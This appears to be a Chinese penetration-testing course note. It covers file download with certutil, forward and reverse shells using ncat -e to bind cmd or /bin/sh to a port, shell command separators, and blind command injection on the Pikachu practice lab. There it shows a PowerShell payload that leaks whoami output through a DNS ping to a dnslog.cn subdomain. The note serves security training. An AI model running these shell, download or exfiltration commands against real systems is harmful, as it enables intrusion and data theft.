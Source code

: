 Day05 基础入门-反弹SHELL&不回显带外&正反向连接&防火墙出入站&文件下载
=
案例
-
1.	文件上传下载-解决无图形化&解决数据传输
2.	反弹Shell命令-解决数据回显&解决数据通讯
3.	防火墙绕过-正向连接&反向连接&内网服务器
4.	防火墙组合数据不回显-ICMP带外查询DNS log

#常规基本渗透命令详解
-
常用命令  
<https://blog.csdn.net/weixin_43303273/article/details/83029138>  
#实用案例1:文件上传下载-解决无图形化&解决数据传输  
命令生成:  
<https://forum.ywhack.com/bountytips.php?download>  
Linux : wget curl python rubyperl java等  
Windows : PowerShell Certutil Bitsadmin msiexec mshta rundll32等

Certutil本质是一个管理证书、证书服务和密钥存储的工具，不过被玩坏了，可以用这个来.下载文件。
certutil.exe -urlcache -split -f http://example.com/file.txt file.txt

#实用案例2:反弹shell命令-解决数据回显&解决数据通讯命令生成:
<https://forum.ywhack.com/shell.php>

Netcat（简称nc）是一款功能强大的网络工具，在网络管理、渗透测试以及安全评估等领域有着广泛应用，常被称为 “网络瑞士军刀”。
Netcat 可以用于远程执行命令。
可在此处下载Windows版本的Netcat
<https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip>

1、正向连接 本地监听，等待对方连接
 	Linux控制Windows
ncat -e cmd -lvp 5566
Windows绑定CMD到本地5566端口
ncat ip 5566
Linux主动连接目标

 	Windows控制Linux
ncat -e /bin/sh-lvp 5566
绑定sh到本地5566端口
nc 47.94.236.117 5566
主动连接目标

2、反向连接 主动给出去，对方监听
 	Linux主动给出
ncat -e /bin/sh 接收者IP 5566
Linux绑定sh到目标5566端口
nc -lvvp 5566
Windows监听5566连接

 	Windows主动给出
ncat -e cmd 接收者IP 5566
Windows绑定CMD到目标5566端口 
nc -lvvp 5566
Linux监听5566连接
受制于NAT这个万恶的东西， 内网的机器只能主动找其他主机。

	|	||	&	&&	；	``
Linux	可用
Windows	可用	不可用

1.	| （管道符号 前面每一个进程的输出直接作为下一个进程的输入 ）
例如，使用管道可以将文件内容通过`cat`命令输出，并通过`grep`命令进行筛选：
cat file.txt | grep "keyword"
https://blog.csdn.net/zhangkunls/article/details/143167921
2.	||（逻辑或）
command1 || command2
如果 command1 执行失败（返回一个非零状态码），则 command2 会被执行。如果 command1 执行成功（返回零状态码），则 command2 不会被执行。
3.	&&（逻辑与）
https://blog.csdn.net/dessler/article/details/142343304
4.	&（后台任务符号）
在Linux中，当你在命令的末尾添加“&”时，该命令会在后台运行，这样你就可以继续在同一个终端上进行其他操作，而不会因为该命令的执行而被阻塞。
5.	；
Linux系统中的分号（;）用于在命令行中分隔多个命令，使得这些命令可以顺序执行。
6.	``
``中的内容执行后替换
实战：
Windows Server 部署Pikachu漏洞练习平台，打开RCE-exec“ping”
1、	下载源码
2、	添加网站并上传源码
3、	找到Pikachu漏洞练习平台中的RCE-exec“ping”
4、	利用符号进行漏洞利用

关键词：防火墙的出站和入站限制

存在漏洞，但是数据不回显：
1、	反弹shell
2、	带外查询

http://www.dnslog.cn/是一个提供 DNSLog 服务的网站。
DNSLog 是一种利用 DNS 协议记录相关信息来进行安全测试、漏洞挖掘等的技术手段。在安全测试场景中：
当测试人员想要探测目标系统是否存在某些漏洞（如命令执行漏洞）时，若在目标系统中执行的命令能够触发向特定域名发起 DNS 查询请求，通过在 “dnslog.cn” 这类平台上点击”Get SubDomain”创建唯一标识的域名，就可以通过查看该平台上的 DNS 查询记录，确认目标系统是否执行了特定命令，以此来判断漏洞是否存在。

Windows的cmd不能使用``，所以我们可以用powershell来定义变量：
$a=whoami
echo $a
上述输出结果为当前用户。
$x=whoami;$y=ipconfig
$x+$y
上述输出结果为当前用户和Windows IP 配置
$xx=$x.replace('\','x');
上述语句作用是把$x中的\替换成x，并赋值给$xx变量
上面的语句中分号是作为每条命令的结束，这些功能是cmd所不具备的。


当数据不能回显时
看一下是否能正确执行命令
在pikachu漏洞练习平台模拟让服务器向dnslog.cn发起请求
Rce-ping构造恶意语句
127.0.0.1 | powershell.exe $a=whoami;$aa=$a.replace('\','x');$bb='.dbwph8.dnslog.cn';$c=$aa+$bb;ping $c;
这时候刷新，dnslog就会出现记录
